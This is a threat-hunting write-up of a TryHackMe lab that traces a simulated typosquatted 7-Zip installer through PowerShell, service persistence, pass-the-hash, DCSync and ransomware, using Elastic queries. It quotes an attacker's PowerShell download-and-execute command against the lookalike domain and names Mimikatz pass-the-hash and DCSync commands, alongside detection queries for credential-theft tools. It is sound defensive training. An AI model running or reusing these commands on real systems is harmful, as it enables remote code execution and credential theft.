# From Typosquatting to Ransomware: A Multi-Stage SOC Investigation

**Lab:** TryHackMe - Hunt Me II: Typo Squatters  
**Focus:** Threat hunting, endpoint telemetry, PowerShell, credential access, lateral movement, Active Directory, ransomware  
**Platform:** Elastic / Kibana Discover  
**Data:** Windows event logs and Sysmon telemetry from a controlled training environment

> **Scope and evidence note:** This case study documents an investigation of a simulated incident. Statements below distinguish observable events from conclusions inferred from those events. The screenshots are taken from the lab dataset; identifiers are training indicators, not live threat intelligence. Credentials and hashes are intentionally omitted from the public report.

## Executive Summary

A software developer downloaded what appeared to be a 7-Zip installer from a **typosquatted domain** (`www.7zipp.org`). The downloaded MSI was associated with a PowerShell execution chain that retrieved another script (`7z.ps1`). The script also installed a legitimate copy of 7-Zip, potentially providing cover for suspicious activity. Subsequent telemetry revealed a newly created Windows service, credential-access tooling, pass-the-hash activity, changes involving other accounts and hosts, an attempted DCSync operation, and ransomware-like file modifications associated with `bomb.exe`.

The investigation demonstrates how a seemingly routine software download can become an entry point for a broader attack. The strongest evidence comes from correlating process creation, parent–child relationships, PowerShell activity, service installation, and file creation events-not from treating any single command as conclusive.

## Investigation Questions

- Where did the initial installer originate, and what made the download suspicious?
- What executed after the MSI, and was legitimate software installation used as cover?
- How did the actor establish persistence and gain credentials?
- What evidence links subsequent activity to another workstation and privileged domain access?
- What evidence supports ransomware impact, and what are the limits of the event data?

## Evidence & Hunting Workflow

The investigation used **Elastic Discover** to search and pivot across Windows and Sysmon events. Useful starting points in this dataset included:

| Evidence | Relevance |
| --- | --- |
| Sysmon Event ID **1** | Process creation, command lines, parent processes, process IDs, users and hosts |
| Sysmon Event ID **3**, where collected | Process-associated network connections; useful for corroborating C2 |
| Sysmon Event ID **11** | Created files, including suspected ransomware output |
| PowerShell Event ID **4103** | Module/pipeline activity and parameter binding where logging is enabled |
| PowerShell Event ID **4104** | Script blocks, where Script Block Logging is available |
| Service-related process commands | `sc.exe create`, `sc.exe start`, and `rundll32.exe` execution context |

**Recommended triage sequence:** suspicious domain or downloaded file → installer process → child PowerShell command → service creation → credential tool execution → user/host pivot → privileged domain activity → ransomware output.

### Reusable KQL Examples

These are **investigative templates**, not a claim that every query was saved exactly as written during the lab. Field names and populated sources may differ between datasets.

**Suspicious installer or downloaded payload:**

```kql
process.command_line: (*7z2301-x64.msi* OR *7zipp.org*)
```

**PowerShell follow-on execution:**

```kql
process.command_line: (*7z.ps1* OR *Invoke-PowerExtract* OR *Invoke-SharpKatz*)
```

**Service installation or invocation:**

```kql
process.command_line: (*7zService* OR *7zipp.dll*)
```

**Credential access and possible pass-the-hash:**

```kql
process.command_line: (*sekurlsa* OR *mimikatz* OR *pth*)
```

**Inspect ransomware-associated file activity:**

```kql
winlog.event_id: 11 AND file.path: *777zzz*
```

If a structured field is absent, inspect the full event and try the fields populated in that dataset (for example `winlog.event_data.Image`, `winlog.event_data.CommandLine`, or `winlog.event_data.TargetFilename`). Time-bound searches around known pivots to reduce noise.

## Attack Timeline

The screenshot evidence points to an investigation on **26 September 2023**. The sequence below is ordered by behavior, not presented as a fully verified second-by-second chronology.

| Phase | Observed or reported activity | Evidence |
| --- | --- | --- |
| Initial access | Installer downloaded from `http://www.7zipp.org/a/7z2301-x64.msi` | `malicious-download.png`, `malicious-domain.png` |
| Execution | MSI-associated process execution, PID `2532` identified in the exercise | `installer-execution.png` |
| Payload retrieval | PowerShell downloads and runs `7z.ps1` from the typosquatted domain | `powershell-payload.png` |
| Decoy installation | Legitimate 7-Zip installer appears at `C:\Windows\Temp\7zlegit.exe` | `legitimate-installer.png` |
| Persistence | Windows service `7zService` created and started; associated `rundll32.exe` invocation | `service-persistence.png` |
| Credential access | Credential extraction tooling including Invoke-PowerExtract and Mimikatz-related behavior | `credential-dumping.png` |
| Credential use | Pass-the-hash command observed for the `james.cromwell` account | `pass-the-hash.png` |
| Account changes | Password reset and additional credential activity reported in lab evidence | `password-reset.png`, `lateral-movement.png` |
| Domain credential access | `Invoke-SharpKatz.ps1` called with a DCSync command targeting a domain account | `dcsync-attack.png`, `domain-credentials.png` |
| Impact | `bomb.exe` activity associated with `.777zzz` file artifacts; lab reports 46 encrypted files | `ransomware-execution.png`, `ransomware-file-activity.png` |

## Technical Analysis

### Initial Access: A Typosquatted Installer

The user obtained a file presented as 7-Zip from a domain that closely resembles a software vendor's legitimate domain:

```text
http://www.7zipp.org/a/7z2301-x64.msi
```

The lab associates the domain with `206.189.34.218`. Neither a plausible product name nor an MSI extension makes a download trustworthy. The important detection opportunity is the combination of an unfamiliar lookalike domain and downstream execution behavior.





### Execution: MSI to PowerShell

The investigation identified a suspicious installer execution associated with **PID 2532**. The following command was observed in process telemetry:

```powershell
powershell.exe iex(iwr http://www.7zipp.org/a/7z.ps1 -useb)
```

Here `iwr` is an alias for `Invoke-WebRequest`, `-UseBasicParsing` is supplied via `-useb`, and `iex` (`Invoke-Expression`) executes the returned content. This pattern is significant because remote code is retrieved and run without the usual manual review of a script on disk.





### Decoy Installation and Service Persistence

The follow-on script installed a legitimate copy of 7-Zip from a local installer path:

```text
C:\Windows\Temp\7zlegit.exe
```

This legitimate installation could help the initial download appear successful to the user, but the claim of deliberate deception is an analytical inference. In parallel, process telemetry showed `sc.exe` creating and starting the service **`7zService`**, with an associated `rundll32.exe` invocation referencing a DLL from the 7-Zip directory.

A service is important because it can provide a mechanism to execute code in the background and, depending on its configuration, survive reboot. The visible service commands provide stronger evidence of setup and launch than of long-term persistence across a reboot.





### Credential Access and Pass-the-Hash

The subsequent investigation found evidence of **Invoke-PowerExtract**, Mimikatz-related activity, and a **`sekurlsa::pth`** command. The latter is characteristic of **pass-the-hash**, where an NTLM hash is used in an authentication workflow without knowing the corresponding plaintext password.

The lab identifies the affected account as `james.cromwell`. The actual hash value has been deliberately excluded from this public write-up. A command showing pass-the-hash usage is evidence of an attempt; authentication records or subsequent successful access provide stronger confirmation of the outcome.





### Account Manipulation and Movement to Another Workstation

The exercise records a password reset for another account and activity involving **`WKSTN-02`**, followed by discovery or use of additional privileged credentials. These events indicate that the investigation extended beyond the original software installation and suggest account compromise and lateral movement.

In a live investigation, this stage should be corroborated by host-specific process creation, successful logons (such as Security Event ID 4624), account-management events, and relevant remote-access or network telemetry. An account name or password in a command by itself does not establish that access succeeded.





### Privileged Domain Access and DCSync Attempt

One of the strongest later-stage findings is a PowerShell command that downloads **`Invoke-SharpKatz.ps1`** and invokes a **DCSync** operation against a domain controller, targeting a privileged account. DCSync abuse attempts to obtain directory secrets by using Active Directory replication mechanisms.

This event establishes an **attempted** domain credential extraction operation. Without corroborating output or directory replication audit events, the command alone does not prove that the targeted secret was successfully returned. The exercise includes a recovered AES256 key value, which is intentionally omitted from this document.





### Impact: Ransomware-Like File Activity

The last stage involved the executable **`bomb.exe`** and file creations with a **`.777zzz`** extension. In the lab, **46 files** are reported as encrypted across affected workstations.

Correlating the executable's process activity with file creation events offers useful evidence of impact. Nevertheless, Sysmon Event ID 11 records file creation, not the cryptographic fact that a file's contents have been encrypted. In a real incident, verifying encryption would require examining file contents and the broader endpoint evidence.





## MITRE ATT&CK Mapping

The following is an **analytical mapping** based on the behaviors described; it is not a list of automatically validated detections.

| Tactic | Technique | Why it is relevant |
| --- | --- | --- |
| Execution | **T1204 - User Execution** *(conditional)* | The user reportedly ran the trojanized installer; confirm the user-initiated process chain |
| Defense Evasion | **T1036 - Masquerading** | Software impersonated a legitimate 7-Zip installer |
| Execution | **T1059.001 - PowerShell** | Remote script retrieval and execution |
| Persistence / Privilege Escalation | **T1543.003 - Windows Service** | `7zService` created and started |
| Credential Access | **T1003.001 - LSASS Memory** | Credential-dumping activity and associated tooling |
| Defense Evasion / Lateral Movement | **T1550.002 - Pass the Hash** | `sekurlsa::pth` command |
| Persistence | **T1098 - Account Manipulation** | Password change activity; intent and success require correlation |
| Credential Access | **T1003.006 - DCSync** | `Invoke-SharpKatz` DCSync attempt |
| Impact | **T1486 - Data Encrypted for Impact** | `bomb.exe` and `.777zzz` file artifacts; lab reports encryption |

**Mapping caveat:** The initial access technique should not be stated more specifically than the evidence supports. The observed download is clear; whether the initial delivery involved phishing or another lure is not fully established in the supplied screenshots. User Execution is included conditionally and should be corroborated through the installer process chain.

## Indicators and Investigation Pivots

| Type | Indicator | Role |
| --- | --- | --- |
| URL | `http://www.7zipp.org/a/7z2301-x64.msi` | Suspected initial malware download |
| IP | `206.189.34.218` | Lab-associated address of the download domain |
| URL | `http://www.7zipp.org/a/7z.ps1` | PowerShell follow-on payload |
| File | `C:\Windows\Temp\7zlegit.exe` | Legitimate installer associated with the sequence |
| Service | `7zService` | Suspiciously installed service |
| Tool | `Invoke-PowerExtract` | Credential extraction tool observed |
| Tool | `Invoke-SharpKatz.ps1` | DCSync-related PowerShell tooling |
| Host | `WKSTN-02` | Workstation involved in later activity |
| Process | `bomb.exe` | Ransomware-associated executable |
| Extension | `.777zzz` | File artifacts associated with encryption |

These are **lab-specific indicators**; prioritize the behavioral detection patterns over copying exact domains or file names into production rules.

## Detection Opportunities

1. **Lookalike software domain + installer execution:** Correlate browser downloads from unusual vendor-lookalike domains with MSI or child PowerShell execution.
2. **PowerShell download-and-execute:** Investigate PowerShell command lines with `iex` combined with `iwr`, `DownloadString`, or remote script URLs, while accounting for legitimate automation.
3. **New service invoking a DLL:** Review `sc.exe create` / service creation events and follow-up execution via `rundll32.exe`, particularly when initiated by a downloaded installer.
4. **Credential access tools:** Detect suspicious LSASS access and commands using known credential-dumping modules; verify source process and user context.
5. **Pass-the-hash pivots:** Correlate tool invocation with NTLM logons, authentication source IPs, affected accounts and destination hosts.
6. **DCSync activity:** Monitor directory replication rights and relevant Security Event ID 4662 events where appropriate auditing is enabled; correlate with PowerShell process evidence.
7. **Ransomware file changes:** Investigate bursts of unusual extensions, file creation/rename patterns and associated process trees. Do not equate a count of creation events with the number of encrypted files without validation.

## What I Learned

- How to build an attack narrative by pivoting from a downloaded installer to subsequent process execution.
- Why a legitimate application installation can coexist with malicious execution and should not end an investigation.
- How Windows services and parent–child process relationships help reveal persistence mechanisms.
- How credential-access tooling, pass-the-hash commands and host pivots connect local compromise to domain-level risk.
- How to recognize a DCSync attempt without claiming success solely from the presence of a command.
- How to communicate ransomware impact while separating file-system telemetry from evidence of actual encryption.

## Lab Source

TryHackMe - **Hunt Me II: Typo Squatters** (SOC Level 2 / Threat Hunting). This report is an independently organized investigation summary, not a question-by-question answer key.
